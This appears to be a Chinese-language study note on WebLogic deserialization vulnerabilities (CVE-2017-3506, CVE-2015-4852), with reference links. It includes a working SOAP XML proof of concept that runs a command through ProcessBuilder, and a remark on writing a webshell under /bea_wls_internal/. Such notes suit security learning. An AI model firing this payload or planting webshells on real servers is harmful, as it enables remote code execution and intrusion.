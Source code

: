 ﻿---
title: WebLogic
categories:
- Network_Security
- Web
- Middleware
- WebLogic
tags:
- Network_Security
date: 2024-01-10 13:49:48
---

# WebLogic 中间件漏洞

## 1. CVE-2017-3506 XMLDecoder 反序列化漏洞（版本：12.1.3.0）

### 1.1 参考文献

1. 主要可以参考下面两篇：

    > https://blog.csdn.net/he_and/article/details/90582262
    >
    > https://zhuanlan.zhihu.com/p/32301092
    >
    > https://www.freebuf.com/articles/web/272835.html

### 1.2 补充

1. 通过 POST 发包，虽然页面会报错，但是结果依旧可以正常执行：
    ![image-20230518143539966](image-20230518143539966.png)

2. 弹出计算机的 PoC：
    ```xml
    <soapenv:Envelope
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Header>
            <work:WorkContext
                xmlns:work="http://bea.com/2004/06/soap/workarea/">
                <java>
                    <object class="java.lang.ProcessBuilder">
                        <array class="java.lang.String" length="3">
                            <void index="0">
                                <string>cmd</string>
                            </void>
                            <void index="1">
                                <string>/c</string>
                            </void>
                            <void index="2">
                                <string>calc</string>
                            </void>
                        </array>
                        <void method="start"/>
                    </object>
                </java>
            </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
    </soapenv:Envelope>
    ```

    注意缩进，可以使用 xml 格式工具进行格式规则化。

3. 写马的话，它需要文件路径：
    ![image-20230518145602040](image-20230518145602040.png)
    这个路径不知道怎么获得，如果能获得的话就能写入。写入之后通过访问：
    `/bea_wls_internal/马`即可。

4. 根据不同的版本，它的路径可能不同。如果是 10 版本，可能是 `/wls-wsat/`

## 2. CVE-2017-10271 和 CVE-2019-2725 todo

## 3. CVE-2015-4852 反序列化漏洞

### 3.1 参考

1. 链接如下：

    > https://bleke.top/posts/754158022/

2. 有关 T3 协议的：

    > https://www.cnblogs.com/nice0e3/p/14201884.html

### 3.2 补充

1. 本质上用的就是 CC1 链。应该是通过 t3 协议，将链发送到 7001 端口然后触发链。

